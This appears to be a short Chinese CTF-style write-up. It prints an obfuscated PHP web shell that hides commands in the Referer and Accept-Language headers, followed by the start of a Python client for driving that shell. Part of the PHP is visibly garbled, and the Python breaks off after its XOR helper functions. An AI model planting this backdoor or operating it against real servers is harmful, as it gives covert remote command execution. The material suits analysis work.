 乱七八糟的，执行处理一下

```php
$kh="42f7";$kf="e9ac";function x($t,$k){$c=strlen($k);$l=strlen($t);$o="";for($i=0;$i<$l;){for($j=0;($j<$c&&$i<$l);$j++,$i++){$o.=$t{$i}^$k{$j};}}return $o;}$r=$_SERVER;$rr=@$r["HTTP_REFERER"];$ra=@$r["HTTP_ACCEPT_LANGUAGE"];if($rr&&$ra){$u=parse_url($rr);parse_str($u["query"],$q);$q=array_values($q);preg_match_all("/([\w])[\w-]+(?:;q=0.([\d]))?,?/",$ra,$m);if($q&&$m){@session_start();$s=&$_SESSION;$ss="substr";$sl="strtolower";$i=$m[1][0].$m[1][1];$h=$sl($ss(md5($i.$kh),0,3));$f=$sl($ss(md5($i.$kf),0,3));$p="";for($z=1;$z$d");@session_destroy();}}}}
```

依然看不出是什么。。网上搜了一下，好像是个后门程序。网上给出了利用程序，原理也不清楚...

```python
#!/usr/bin/env python
# encoding: utf-8
from random import randint,choice
from hashlib import md5
import urllib
import string
import zlib
import base64
import requests
import re

def choicePart(seq,amount):
    length = len(seq)
    if length == 0 or length < amount:
        print 'Error Input'
        return None
    result = []
    indexes = []
    count = 0
    while count < amount:
        i = randint(0,length-1)
        if not i in indexes:
            indexes.append(i)
            result.append(seq[i])
            count += 1
            if count == amount:
                return result

def randBytesFlow(amount):
    result = ''
    for i in xrange(amount):
        result += chr(randint(0,255))
    return  result

def randAlpha(amount):
    result = ''
    for i in xrange(amount):
        result += choice(string.ascii_letters)
    return result

def loopXor(text,key):
    result = ''
    lenKey = len(key)
    lenTxt = len(text)
    iTxt = 0
    while iTxt < lenTxt:
        iKey = 0
        while iTxt<lenTxt and iKey<lenKey:
            result += chr(ord(key[iKey]) ^ ord(text[iTxt]))
            iTxt += 1
            iKey += 1
```